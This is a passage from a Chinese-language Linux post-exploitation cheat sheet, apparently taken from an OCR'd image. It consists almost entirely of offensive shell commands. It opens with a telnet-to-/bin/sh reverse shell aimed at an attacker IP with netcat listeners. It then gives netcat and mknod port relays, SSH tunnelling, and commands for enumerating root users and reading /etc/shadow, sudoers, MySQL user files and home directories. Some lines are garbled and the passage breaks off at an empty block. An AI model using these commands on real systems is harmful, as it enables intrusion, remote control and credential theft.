 ###你如何get一個shell？你如何與系統進行交互？
```bash
# http://lanmaster53.com/2011/05/7-linux-shells-using-built-in-tools/
nc -lvp 4444 # Attacker. 輸入 (命令)
nc -lvp 4445 # Attacker. 輸出(結果)
telnet [atackers ip] 44444 | /bin/sh | [local ip] 44445 # 在目標系統上. 使用攻擊者的IP!
```
###如何端口轉發？ （端口重定向）
```bash
# rinetd
# http://www.howtoforge.com/port-forwarding-with-rinetd-on-debian-etch
# fpipe
# FPipe.exe -l [local port] -r [remote port] -s [local port] [local IP]
FPipe.exe -l 80 -r 80 -s 80 192.168.1.7
#ssh
# ssh -[L/R] [local port]:[remote ip]:[remote port] [local user]@[local ip]
ssh -L 8080:127.0.0.1:80 root@192.168.1.7 # Local Port
ssh -R 8080:127.0.0.1:80 root@192.168.1.7 # Remote Port
#mknod
# mknod backpipe p ; nc -l -p [remote port] < backpipe | nc [local IP] [local port] >backpipe
mknod backpipe p ; nc -l -p 8080 < backpipe | nc 10.1.1.251 80 >backpipe # Port Relay
mknod backpipe p ; nc -l -p 8080 0 & < backpipe | tee -a inflow | nc localhost 80 | tee -a outflow 1>backpipe # Proxy (Port 80 to 8080)
mknod
backpipe p ; nc -l -p 8080 0 & < backpipe | tee -a inflow | nc
localhost 80 | tee -a outflow & 1>backpipe # Proxy monitor (Port 80 to 8080)
```
###建立隧道可能嗎？本地，遠程發送命令
```bash
ssh -D 127.0.0.1:9050 -N [username]@[ip]
proxychains ifconfig
```

##秘密信息和用戶

###你是誰？哪個id登錄？誰已經登錄？還有誰在這裡？誰可以做什麼呢？
```bash
id
who
w
last
cat /etc/passwd | cut -d: # List of users
grep -v -E "^#" /etc/passwd | awk -F: '$3 == 0 { print $1}' # List of super users
awk -F: '($3 == "0") {print}' /etc/passwd # List of super users
cat /etc/sudoers
sudo -l
```
###可以找到什麼敏感文件？
```bash
cat /etc/passwd
cat /etc/group
cat /etc/shadow
ls -alh /var/mail/
```
###什麼有趣的文件在home/directorie（S）裡？如果有權限訪問
```bash
ls -ahlR /root/
ls -ahlR /home/
```
###是否有任何密碼，腳本，數據庫，配置文件或日誌文件？密碼默認路徑和位置
```bash
cat /var/apache2/config.inc
cat /var/lib/mysql/mysql/user.MYD
cat /root/anaconda-ks.cfg
```
###用戶做過什麼？是否有任何密碼呢？他們有沒有編輯​​什麼？
```bash
```